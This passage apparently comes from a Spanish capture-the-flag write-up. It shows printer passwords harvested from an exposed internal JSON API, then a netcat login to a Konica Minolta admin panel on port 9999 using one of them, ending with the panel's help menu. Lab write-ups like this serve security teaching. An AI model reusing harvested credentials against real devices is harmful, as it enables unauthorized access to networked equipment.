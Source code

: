 ```json
}

===== http://192.168.5.86/api/printers/printer4.json =====
{
    "printer": {
        "printer_id": "4",
        "printer_password": "admin"
    }
}

===== http://192.168.5.86/api/printers/printer5.json =====
{
    "printer": {
        "printer_id": "5",
        "printer_password": "root"
    }
}

===== http://192.168.5.86/api/printers/printer1599.json =====
{
    "printer": {
        "printer_id": "1599",
        "printer_password": "$3cUr3Pr1nT3RP4ZZw0rD"
    }
}
```

Veremos que es una serie de contraseñas, por lo que podremos probarlas en el puerto `9999` que hemos visto antes a ver cual funciona de todas.

## Escalate user printer

### Printer (9999)

```shell
nc <IP> 9999
```

Info:

```
Konica Minolta Printer Admin Panel


Password: $3cUr3Pr1nT3RP4ZZw0rD

Please type "?" for HELP
>
```

Si vemos el `help` poniendo `?` veremos lo siguiente:

```
To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)
```